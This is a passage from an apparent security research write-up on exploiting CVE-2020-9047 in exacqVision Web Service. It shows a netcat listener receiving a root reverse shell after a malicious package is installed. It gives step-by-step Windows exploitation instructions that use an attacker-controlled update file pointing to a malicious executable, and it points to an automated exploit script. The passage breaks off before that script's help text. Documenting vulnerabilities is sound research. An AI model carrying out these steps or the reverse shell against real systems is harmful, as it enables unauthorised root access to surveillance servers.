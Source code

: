 ```
┌─[root@parrot]─[~/demo]
└──╼ #nc -lvp 4444
listening on [any] 4444 ...
10.0.0.22: inverse host lookup failed: Unknown host
connect to [10.0.0.11] from (UNKNOWN) [10.0.0.22] 56986
whoami
root
dpkg -l | grep evil-package
ii  evil-package                          99.99.99.9999                                   all          lorem ipsum
```

The response returns that the `update` action was successful.

```
HTTP/1.1 200 OK
Date: Tue, 26 May 2020 19:22:35 GMT
Server: Apache/2.4.20 (Unix)
...
Content-Length: 17
Connection: close
Content-Type: application/json

{"success": true}
```

## Exploiting CVE-2020-9047: Windows
The steps for exploiting the vulnerability on Windows systems are similar to the the steps required to exploit the vulnerability on Linux systems. In fact, steps one, two, and five are the same regardless of the underlying operating system. As the steps to exploit the vulnerability on Linux sytems have already been outlined, the steps included in this section will be brief. 

1. Complete in the same manner as explained in Linux step one.
2. Complete in the same manner as explained in Linux step two.
3. Create/generate a Windows executable (`.exe`) file instead of a Debian package file. **WARNING:** It will take a little extra work to ensure the functionality of exacqVision Web Service is restored after the installation of the malicious Windows executable file. A failed exploitation attempt will result in crashing the service. The service must be started/restarted from the system running exacqVision Web Service before functionality will be restored.
4. A valid bracketed header for Windows systems in the attacker-controlled `evFileInfo.txt` takes the form `[ev-WebService-Windows-99.99.99.9999]` for 32-bit architectures and `[ev-WebService-Windows-x64-99.99.99.9999]` for 64-bit architectures. The `Link` value should reference the attacker-controlled Windows executable file (ending with `.exe`) as created in step three. The `Package` value should be changed to the value of `Windows`. Complete the steps as outlined in Linux step four for other values.
5. Complete in the same manner as explained in Linux step five.

## Exploit Code: CVE-2020-9047.py
I have written a program that automates the steps required to exploit the vulnerability on Linux and Windows x86/x64 systems. The full code is available on [GitHub](https://github.com/norrismw/research/tree/master/CVE-2020-9047). The program works on exacqVision Web Service versions 3.8.2.67295 - 20.06.3.0. The help section of the program (`-h` or `--help`) is rather verbose and is included below for reference. Following the help section are brief example use cases/demonstrations.
